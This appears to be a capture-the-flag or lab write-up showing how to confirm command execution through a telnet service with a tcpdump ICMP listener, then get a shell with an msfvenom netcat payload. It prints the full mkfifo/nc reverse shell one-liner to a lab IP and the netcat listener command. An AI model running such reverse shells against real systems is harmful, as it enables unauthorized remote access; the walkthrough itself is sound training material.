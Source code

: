 ```yaml
---
icon: square-terminal
---
```


# tcpdump listener & reverse shell

with the OpenVPN connection:

* `sudo tcpdump ip proto \\icmp -i tun0`

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption><p>why tun0</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

in order to find if telnet is executing our commands on it we started a tcpdump listener on our local machine and then executed `.RUN ping [our local ip] -c 1`

***

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:\


`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

`-p` = payload

`lhost` = our local host IP address (this is your machine's IP address)

`lport` = the port to listen on (this is the port on your machine)

`R` = export the payload in raw format

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

#### Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

after that we copy and paste our msfvenom payload into the telnet session and run it as a command to get a shell.

`.RUN mkfifo /tmp/qdym; nc 10.13.65.129 44444 0</tmp/qdym | /bin/sh >/tmp/qdym 2>&1; rm /tmp/qdym` was run in the telnet session, then:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

